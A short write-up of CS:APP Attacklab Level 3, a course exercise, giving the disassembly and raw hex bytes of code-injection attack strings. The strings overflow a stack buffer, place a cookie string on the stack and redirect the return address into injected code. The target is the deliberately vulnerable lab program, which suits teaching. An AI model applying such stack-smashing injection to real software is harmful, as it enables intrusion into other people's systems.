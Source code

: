 # CS:APP Attacklab Writeup
## Level 3
First, I tried to store the string in the buffer:
```
   0:	48 c7 c7 97 dc 61 55 	mov    $0x5561dc97,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3                   	ret
   d:	90                   	nop
```

```
48 c7 c7 97 dc 61 55
68 fa 18 40 00
c3
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 
11 45 
35 39 62 39 39 37 66 61 00 /* This is the target string */
78 DC 61 55 /* This is the target of return */
```

However, the instructions in string compare functions also uses this stack spaces.

By creating extra stack space, we can keep this string in memory:

```
   0:	6a 00                	push   $0x0
   2:	48 bf 35 39 62 39 39 	movabs $0x6166373939623935,%rdi
   9:	37 66 61 
   c:	57                   	push   %rdi
   d:	48 89 e7             	mov    %rsp,%rdi
  10:	68 fa 18 40 00       	push   $0x4018fa
  15:	c3                   	ret
  16:	90                   	nop
```

Therefore, we can devise the attack string:
```
6a 00 
48 bf 35 39 62 39 39
37 66 61 
57  

48 89 e7
68 fa 18 40 00
c3
11 45 
11 45 14 11 45 14
11 
35 39 62 39 39 37 66 61 00 /* This is the target string, but of no use */
78 DC 61 55 /* This is the target of return */
```